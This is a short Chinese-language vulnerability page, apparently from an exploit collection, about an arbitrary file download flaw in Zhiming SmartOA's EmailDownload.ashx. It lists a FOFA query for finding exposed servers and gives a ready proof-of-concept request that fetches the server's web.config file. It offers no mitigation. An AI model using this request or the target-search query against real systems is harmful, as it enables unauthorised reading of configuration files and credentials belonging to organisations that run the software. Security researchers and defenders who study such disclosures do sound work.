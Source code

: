 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

<a-checkbox checked>智明 SmartOA</a-checkbox></br>

## FOFA

<a-checkbox checked>app="智明协同-SmartOA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1631326538226-96c43380-0494-47e1-899c-7e115530b1bb.png)

验证POC

```python
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![img](../../../.vuepress/public/img/1631326793699-a63d3321-beee-4241-9369-2e3ccb9ac39f.png)